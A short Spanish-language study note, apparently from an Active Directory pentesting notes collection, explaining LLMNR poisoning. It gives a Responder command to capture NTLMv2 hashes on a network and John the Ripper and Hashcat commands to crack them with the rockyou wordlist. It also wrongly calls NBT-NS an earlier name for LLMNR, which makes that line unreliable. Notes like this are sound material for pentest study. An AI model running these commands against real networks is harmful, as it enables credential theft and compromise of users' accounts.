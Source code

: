 # Qué es LLMNR?

- Se usa para identificar hosts cuando el DNS falla.
- Antes se conocía como `NBT-NS`
- El servicio devuelve el `username` de un usuario y un `Hash NTLMv2` cuando responde.

# Explicación gráfica del vector de ataque

[Ver la imagen](/Apuntes-AD/Images/6.md)

# Iniciando Ataque (Responder)
En el momento en el que un usario acceda a un recurso que no existe, solicitaremos que se conecte a nosotros y obtendremos su Hash NTMLv2.

```
python /usr/share/responder.py -I tun0 -rdw
```

[Ver el Responder en proceso](/Apuntes-AD/Images/5.md)

[Ver la obtención de Hash NTMLv2](/Apuntes-AD/Images/4.md)

# Romper el Hash (JohnTheRipper)

```
john --wordlist=/usr/share/wordlists/rockyou.txt <hashfile>
```

# Romper el Hash (Hashcat)

```
hashcat -m 5600 <hashfile> rockyou.txt --force
```

